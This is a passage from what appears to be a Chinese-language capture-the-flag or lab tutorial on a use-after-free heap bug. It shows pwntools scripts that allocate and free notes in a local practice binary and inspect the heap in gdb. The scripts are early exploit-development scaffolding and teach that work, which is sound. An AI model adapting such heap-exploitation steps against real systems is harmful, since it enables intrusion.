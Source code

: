 我們首先新增兩個 note，觀察它們在 Heap 上的狀態：

```py=
from pwn import *

r = process('../uaf/share/uaf')
# r = remote('127.0.0.1', 10012)

gdb.attach(r)

def add(size, data):
    r.sendlineafter(': ', '1')
    r.sendlineafter(': ', str(size))
    r.sendlineafter(': ', data)

def delete(idx):
    r.sendlineafter(': ', '2')
    r.sendlineafter(': ', str(idx))

def print_(idx):
    r.sendlineafter(': ', '3')
    r.sendlineafter(': ', str(idx))

add(0x20, 'aaaa') # 0
add(0x20, 'bbbb') # 1
r.interactive()
```

使用 heap 指令觀察記憶體分佈，會看到分配了大小、function pointer 和 data 等數據。

![image](/images/iron2024/day24_image1.png)

![image](/images/iron2024/day24_image2.png)

接下來，我們嘗試釋放這兩塊記憶體，並繼續觀察：

```py=
from pwn import *

r = process('../uaf/share/uaf')
# r = remote('127.0.0.1', 10012)

gdb.attach(r)

def add(size, data):
    r.sendlineafter(': ', '1')
    r.sendlineafter(': ', str(size))
    r.sendlineafter(': ', data)

def delete(idx):
    r.sendlineafter(': ', '2')
    r.sendlineafter(': ', str(idx))

def print_(idx):
    r.sendlineafter(': ', '3')
    r.sendlineafter(': ', str(idx))

add(0x20, 'aaaa') # 0
add(0x20, 'bbbb') # 1
delete(0)
delete(1)
r.interactive()
```
